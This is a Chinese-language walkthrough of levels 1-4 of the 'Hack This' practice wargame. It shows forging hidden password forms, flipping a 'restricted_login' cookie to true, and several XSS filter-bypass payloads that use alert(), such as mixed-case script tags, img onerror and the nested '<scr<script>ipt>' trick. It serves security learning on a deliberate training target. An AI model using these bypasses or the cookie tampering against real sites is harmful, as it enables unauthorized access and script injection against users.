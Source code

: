 ## level1
审查元素->新建节点->编辑html>插入form
```html
<div>
<form method="GET" action="">
<input name="password" value="flubergump" type="hidden">
<input type="submit" value="submit">
</form>
</div>
```

## level2
审查元素->新建节点->编辑html>插入form
```html
<div>
<form method="POST" action="">
<input name="password" value="flubergump" type="hidden">
<input type="submit" value="submit">
</form>
</div>
```
可通过开发者工具中的网络标签页来查看通信过程验证。

## level3
改cookie中的`restricted_login`的值，将`false`改为`true`即可。
![](img/屏幕快照\ 2017-04-04\ 下午3.27.28.png)
## level4
先直接写他给的嵌入script标签的代码
```html
<script>alert('HackThis!!');</script>
```
然后结果发现它将`alert('HackThis!!');`这个script标签里面的值输出到了一个div标签里。
![](img/屏幕快照\ 2017-04-04\ 下午3.36.18.png)
于是我想在前面闭合掉div，然后在后面加上一个div开头与后面的div闭合。
结果发现没有过滤尖括号，把div直接输出了，然而script里面的内容还是作为html代码输出到了页面，外面没有script标签包裹，于是并没有执行。
![](img/屏幕快照\ 2017-04-04\ 下午3.39.26.png)
于是我想它是不是碰到script标签就把script过滤删除，然后把其中的内容输出到页面。到把script大小写混写
```html
</div><sCripT>alert('HackThis!!');</SCriPt><div>
```
页面弹框了 </br>
![](img/屏幕快照\ 2017-04-04\ 下午3.51.01.png)
再试试img标签
```html
<img src=0 onerror=alert('HackThis!!')>
```
页面虽然也弹框了</br>
但是发现题目要求，必须要嵌入的是那一段代码，而且页面没有显示要你进入下一关，应该意思是没通过。
然后想想看这样行不行。
```html
<scriscriptpt>alert('HackThis!!');</scscriptript>
```
然后发现页面其实也并不是将关键词script替换
![](img/屏幕快照\ 2017-04-04\ 下午3.55.58.png)
然后我想，它是不是只过滤了一个script标签，我用两个试试呢？
```html
<script><script>alert('HackThis!!');</script></script>
```
然后将尖括号编码都不行。
```
&lt;script&gt;alert('HackThis!!');&lt;/script&gt;
```
或者
```html
%3cscript%3ealert('HackThis!!');%3c/script%3e
```
后来看了被人的writeup才发现，，，草，既然尖括号没有过滤，那可以用啊！
```html
<scr<script>ipt>alert('HackThis!!');</s</script>cript>
```

